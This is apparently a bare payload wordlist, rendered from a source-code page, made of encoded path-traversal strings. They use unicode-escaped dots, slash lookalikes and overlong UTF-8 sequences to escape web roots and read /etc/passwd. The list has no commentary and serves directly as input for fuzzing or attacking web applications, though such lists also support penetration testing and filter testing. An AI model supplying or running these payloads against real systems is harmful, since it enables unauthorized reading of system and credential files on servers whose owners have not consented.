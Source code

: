 ```llvm
%u002e%u002e/%u002e%u002e/%u002e%u002e/%u002e%u002e/etc/passwd
%u002e%u002e/%u002e%u002e/%u002e%u002e/%u002e%u002e/%u002e%u002e/etc/passwd
%u002e%u002e%u2216etc/passwd
%u002e%u002e%u2216etc%u2216passwd
%u002e%u002e%u2216%u002e%u002e/etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216etc%u2216passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e/etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216etc%u2216passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e/etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216etc%u2216passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e/etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216etc/passwd
%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216%u002e%u002e%u2216etc%u2216passwd
%u002e%u002e%u2215etc/passwd
%u002e%u002e%u2215etc%u2215passwd
%u002e%u002e%u2215%u002e%u002e/etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215etc%u2215passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e/etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215etc%u2215passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e/etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215etc%u2215passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e/etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215etc/passwd
%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215%u002e%u002e%u2215etc%u2215passwd
%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%e0%80%afetc/passwd
%e0%40%ae%e0%40%ae%e0%80%afetc%e0%80%afpasswd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc%e0%80%afpasswd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc%e0%80%afpasswd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc%e0%80%afpasswd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc/passwd
%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%af%e0%40%ae%e0%40%ae%e0%80%afetc%e0%80%afpasswd
%e0%40%ae%e0%40%ae%c0%80%5cetc/passwd
%e0%40%ae%e0%40%ae%c0%80%5cetc%c0%80%5cpasswd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae/etc/passwd
```